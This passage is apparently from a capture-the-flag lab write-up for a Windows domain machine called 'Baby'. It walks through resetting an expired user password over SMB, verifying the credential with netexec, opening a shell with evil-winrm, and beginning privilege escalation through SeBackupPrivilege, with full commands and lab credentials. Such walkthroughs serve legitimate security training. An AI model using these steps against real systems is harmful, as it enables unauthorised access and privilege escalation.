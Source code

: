 ```console
```

Note that we need to change caroline robinson's password. 

```console
SMB         10.10.65.95     445    BABYDC           [-] baby.vl\caroline.robinson:BabyStart123! STAT  
US_PASSWORD_MUST_CHANGE
```

We can change it with `smbpasswd`. 

```console
〉smbpasswd -r $ip -U BABY.vl/caroline.robinson  
Old SMB password:  
New SMB password:  
Retype new SMB password:  
Password changed for user caroline.robinson
```

Once the password is changed, we can confirm it with `netexec`. 

```console
〉nxc smb $ip -u caroline.robinson -p 'P@ssw0rd123!'  
SMB         10.10.65.95     445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BA  
BYDC) (domain:baby.vl) (signing:True) (SMBv1:False)  
SMB         10.10.65.95     445    BABYDC           [+] baby.vl\caroline.robinson:P@ssw0rd123!
```

Perfect! Now that we have a valid credential for the `caroline.robinson` user, we can log into the machine with `evil-winrm`. 

```console
〉evil-winrm -i $ip -u 'caroline.robinson' -p 'P@ssw0rd123!'  
                                          
Evil-WinRM shell v3.5  
                                          
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() functi  
on is unimplemented on this machine  
                                          
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remot  
e-path-completion  
                                          
Info: Establishing connection to remote endpoint  
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents>
```

Grab the user flag and start enumerating. 

## Privilege Escalation

Checking our current privileges, we find that `caroline.robinson` has the `SeBackupPrivilege` enabled. With this privilege enabled, the user can bypass file and directory restrictions for the purpose of backing them up. This privilege causes the system to grant all read access to any file, regardless of the access control list specified for the file. 
